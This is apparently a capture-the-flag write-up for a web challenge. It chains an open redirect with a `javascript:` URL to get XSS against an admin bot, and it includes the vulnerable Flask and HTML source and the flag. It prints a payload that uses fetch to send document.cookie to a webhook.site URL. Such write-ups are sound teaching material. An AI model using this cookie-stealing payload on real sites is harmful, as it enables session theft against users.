


From Text injection to open redirect using `javascript:` pseudo protocol for unrestricted XSS.

First major web solve since picoCTF.

<!--more-->

## Enumeration

Challenge consists of a flask web server and a html file.

### Routes:

1. `/visit`
Triggers admin bot to visit page in `url`, given that `url` query parameter must start with "http://localhost:5000".

2. `/`
If request coming from `127.0.0.1` (ie, from admin bot), set the flag in the cookie.

### Interesting html

1. HTML stores the `name` queryParam not only in the html, but also in a global variable called `name`
2. Open redirects to `url` queryParam after 3 seconds, if it's length is <= 15.

## Exploit

Since everything in the `name` queryParam is stored in the `name` global variable, and open-redirected to `url` queryParam, we can construct a clever [`javascript:`](https://developer.mozilla.org/en-US/docs/Web/URI/Reference/Schemes/javascript) url liked `javascript:name`



Here, 
- `url`  = `url=javascript:name`
- `name` = `<script>alert(42)</script>`

Do the same to the admin, by `/visit`. Instead of `alert()`, send document.cookie to `webhooks.site` url.

- `url`  = `javascript:name`
- `name` = `<script>fetch("https://webhook.site/3d4588c3-7895-4491-bcc2-d176e9d84051/"+document.cookie")</script>`

Get flag in webhook



## Flag

`NHNC{javascript:xssed!&xssed!=alert(/whale/)}`

## (Abridged) Source code

app.py:

```py
FLAG = "NHNC{REAL_FLAG}"

@app.route("/visit", methods=["GET"])
def visit():
    url = request.args.get("url")
    assert url is not None

    if not url.startswith("http://localhost:5000/"):
        return "Bad Hacker", 400

    process = subprocess.Popen(
        [ "chromium", url, "--disable-gpu", "--no-sandbox", "--user-agent='admin'", ],
        stdout=subprocess.DEVNULL,
        stderr=subprocess.DEVNULL,
    )
    timer = threading.Timer(20, terminate_process, [process])
    timer.start()

    return "Admin is visiting your page!"

@app.route("/", methods=["GET"])
def main():
    if request.remote_addr == "127.0.0.1":
        resp = make_response(render_template("index.html"))
        resp.set_cookie("flag", FLAG)
        return resp
    return render_template("index.html")


if __name__ == "__main__":
    app.run(host="0.0.0.0", port=5000)
```


Index.html:

```html
...
    <body>
        <div class="neon" id="displayName">───</div>
        <div class="hint">Jumping to the universe ...</div>

        <script>
            function getQueryParam(key) {
                const params = new URLSearchParams(window.location.search);
                return params.get(key) || "";
            }
            const name = getQueryParam("name");
            const targetUrl = getQueryParam("url");
            const display = document.getElementById("displayName");
            display.textContent = name || "Guest";
            setTimeout(() => {
                if (targetUrl && targetUrl.length <= 15) window.location.href = targetUrl;
            }, 3000);
        </script>
    </body>
```
